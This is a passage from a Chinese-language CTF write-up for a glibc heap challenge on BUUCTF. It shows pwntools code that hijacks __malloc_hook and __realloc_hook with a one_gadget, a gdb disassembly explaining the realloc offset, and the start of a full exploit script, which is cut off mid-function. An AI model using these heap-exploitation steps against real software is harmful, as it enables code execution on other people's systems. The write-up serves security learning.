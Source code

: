   

此时我们可以说是已经劫持成功了，我们接着去填充payload然后再申请一个堆块就可以触发payload了

```text
add(0x68,b'a'*0x08)# 4与2同时指向0x70

free(4)
edit(2,p64(fake_chunk_addr))

add(0x68,b'a'*0x08)#4


payload=b'a'*(0x13-0x08)+p64(one_gadget)+p64(realloc_addr+12)
add(0x68,payload)#5

r.recvuntil("choice: ")
r.sendline("1")
r.sendlineafter("size?",str(0x18))
print(hex(libc.sym['__malloc_hook']))
r.interactive()
```

## PS:

关于为什么是0x13-0x08，因为我们从main_arena-0x33的位置填充的(第三步有提到)，而这个位置距离realloc_hook的距离就是(0x13-8)

关于realloc_hook压栈到底要加多少

我们可以打开gdb输入 x/32i __libc_realloc

```text
pwndbg> x/32i __libc_realloc
   0x7ff34230e710 <__GI___libc_realloc>: push   r15
   0x7ff34230e712 <__GI___libc_realloc+2>: push   r14
   0x7ff34230e714 <__GI___libc_realloc+4>: push   r13
   0x7ff34230e716 <__GI___libc_realloc+6>: push   r12
   0x7ff34230e718 <__GI___libc_realloc+8>: mov    r12,rsi
   0x7ff34230e71b <__GI___libc_realloc+11>: push   rbp
   0x7ff34230e71c <__GI___libc_realloc+12>: push   rbx
```

把里面的数字一个个代入试试看。

最后的完整exp如下

## EXP:

需要的libc从buuctf里面下载

```text
from pwn import *
context(log_level='debug')
#r=process('./vn')
#elf=ELF('./vn')
r=remote('node3.buuoj.cn',28640)
libc=ELF('64.so')
def add(size,content):
        r.recvuntil("choice: ")
        r.sendline("1")
        r.sendlineafter("size?",str(size))
        r.sendlineafter("content:",content)
def edit(idx,content):
        r.recvuntil("choice: ")
        r.sendline("2")
        r.sendlineafter("idx?",str(idx))
        r.sendlineafter("content:",content)
def dump(idx):
```